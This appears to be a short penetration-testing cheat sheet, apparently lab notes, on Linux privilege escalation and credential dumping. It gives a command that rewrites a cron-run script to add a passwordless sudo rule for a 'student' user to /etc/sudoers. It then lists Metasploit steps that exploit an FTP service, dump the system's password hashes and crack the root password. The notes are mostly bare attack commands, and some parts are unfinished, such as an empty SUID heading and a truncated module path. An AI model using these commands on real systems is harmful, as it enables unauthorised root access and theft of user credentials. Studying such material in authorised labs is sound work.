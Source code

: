 ## Linux Kernel Exploit

Vulnerability detection tool : `https://github.com/The-Z-Labs/linux-exploit-suggester`


### CronJob

if no access to the binary with root privilege in unprivileged 

```bash
find / -name binary_name
```

```bash
printf '#! /bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
```

### SUID

## DUMPING LINUX PASSWORD HASHES

```bash
msfconsole -q
use exploit/unix/ftp/...
set RHOSTS x.x.x.x
exploit -z
```

1. use a post exploitation module to dump the system users hashes.
```bash
use post/linux/gather/hashdump
set SESSION 1
exploit
```

2. auxiliary module to find the plain text password of the root user.
```bash
use auxiliary/analyze/crack_linux
set SHA512 true
run
```